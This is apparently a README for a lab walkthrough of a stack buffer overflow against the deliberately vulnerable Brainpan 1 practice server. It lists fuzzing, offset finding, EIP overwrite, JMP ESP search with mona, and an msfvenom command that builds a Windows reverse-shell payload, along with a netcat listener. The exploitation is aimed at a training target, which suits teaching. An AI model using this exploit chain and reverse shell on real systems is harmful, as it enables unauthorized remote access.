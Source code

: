 <h1>Hacksudo Brainpan BOF server </h1>
visit brainpan 1 box walktrhough 
https://leetvilu.blogspot.com/2021/03/brainpan-1-box-walkktrhough-hacksudocom.html
youtube channel:- https://youtube.com/hackshala
<h2>Steps</h2></br>
All BOF step are given bellow check clearfully 
<h3>1 spiking</n>
<br>2 fuzzing</n>
<br>3 finding the offset
<br>4 overwriting the EIP
<br>5 finding bad characters
<br>6 finding the right modules
<br>7 Generating Shellcode</h3></br></br></br></br></br>
<h2>1 Spiking </h2>
First make sure Your firewall real protection turn off
Now run brainpan server as admin
use your spiking.spk to find Vulnerability 
script is --> 
<b> s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server crash ? boom you  succeed 

<h2> 2 fuzzing</h2>
Now time to find Number of size buffer which crash server 
(use chmod +x * )
 ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
Now create pattern , why ? to find exact number of Buffer size
First create unic pattern using metasploit tool
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
 Now use offsetcalc.py to find lenght which you will use later to  find offset which is our exact buffer size in byte :D 
 ./offsetcalc.py IP PORT
get EIP value ? now use it at offset

<h2> 3 finding the offset</h2>
find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
 boom ?? we get Exact Number of size which is 524

<h2>4. overwriting the EIP</h2>
Now Verify EIP Overwrite, add B*4 and check debuger print 42424242 at EIP 
./brainpanEIPWt.py IP PORT
 YES --> ok great

<h2>5. finding bad characters</h2>
Now find Bad chars which is use while create shellcode , actualy  we dont need to find  bad chars in this servers, but dont skip this step go head
and just do practice ;) 
 ./brainpanBadChard.py IP PORT
remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you 
https://instagram.com/realvilu
:)

<h2>6. finding the right modules</h2>
Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place
use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
now find base value note it down
and make sure ur JMP ESP Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 

fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode
control EIP done

<h2>7. Generating Shellcode</h2>
now generarte shellcode 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)

"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
make sure your nc is ready
 nc -lvnp 443 
and now fire your final code 
./finalexploit.py IP PORT

boom you will get shell 
if not then sorry please recheck all step clearly 
thanks i hope you love this repo :D 
<h1>love you guys thanks for watching </h1>
<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>

